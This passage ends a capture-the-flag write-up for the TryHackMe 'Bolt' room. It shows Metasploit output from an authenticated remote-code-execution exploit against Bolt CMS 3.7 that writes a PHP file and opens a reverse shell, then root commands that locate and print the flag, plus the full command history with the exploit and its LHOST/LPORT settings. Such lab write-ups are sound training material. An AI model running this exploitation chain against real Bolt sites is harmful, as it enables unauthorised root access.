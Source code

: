 ```bash
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "hhrrsy".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file mjuaewpru.php.
[+] Used token cb01515d6b82cdfef71835f1ab to create wvvkcehx.php.
[*] Attempting to execute the payload via "/files/wvvkcehx.php?hhrrsy=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.10.227.231:9999 -> 10.10.195.64:57614) at 2023-06-30 02:35:24 +0100
[+] Deleted file wvvkcehx.php.
[+] Reverted user profile back to original state.

```
23. `whoami` to display who we're running as onto our terminal, which revealed that we were running as root
24. `find / -type f -name flag.txt 2>/dev/null` to recursively search for the flag.txt file starting from the root of the target's filesystem and display its location onto our terminal
25. `cat {FLAG TEXT PATH}` to display contents of the flag.txt file onto our terminal
```bash
whoami
root
```
```bash
find / -type f -name flag.txt 2>/dev/null
/home/flag.txt
```
```bash
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```


**Room completed!**

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/TryHackMe%20-%20Bolt.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP}:8000 > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `firefox "http://10.10.195.64:8000"`
6. `firefox "http://10.10.195.64:8000/entries"`
7. `firefox "https://www.google.com/search?client=firefox-b-d&q=boltcms"`
8. `firefox "http://10.10.195.64:8000/bolt"`
9. `msfconsole`
10. `search Bolt 3.7`
11. `info {EXPLOIT PATH}`
12. `use {EXPLOIT PATH}`
13. `show options`
14. `set PASSWORD {JAKE'S PASSWORD}`
15. `set RHOSTS {TARGET IP}`
16. `set USERNAME {JAKE'S USERNAME}`
17. `set LHOST {MACHINE IP}`
18. `set LPORT {PORT NUMBER}`
19. `show options`
20. `exploit`
21. `whoami`
22. `find / -type f -name flag.txt 2>/dev/null`
23. `cat {FLAG TEXT PATH}`
